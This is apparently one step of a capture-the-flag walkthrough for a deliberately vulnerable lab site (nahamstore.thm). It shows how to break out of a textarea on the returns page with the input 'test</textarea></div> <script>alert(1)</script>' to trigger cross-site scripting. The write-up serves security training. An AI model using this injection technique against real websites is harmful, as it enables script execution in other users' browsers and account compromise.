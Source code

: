 
XSS 5: escaping HTML tag textarea
- Visit `http://nahamstore.thm/returns/`
- `view-source:http://nahamstore.thm/returns/`
	```
	...
	<div><textarea name="return_info" class="form-control">{Injected Payload Here!}</textarea></div>
	...
	```
![6xss5-1](imgs/6xss5-1.png)

- On the page `http://nahamstore.thm/returns/`, in the box of `Return Information`:
	```
	test</textarea></div> <script>alert(1)</script>
	```
- Then, click `Create Return` to get the XSS
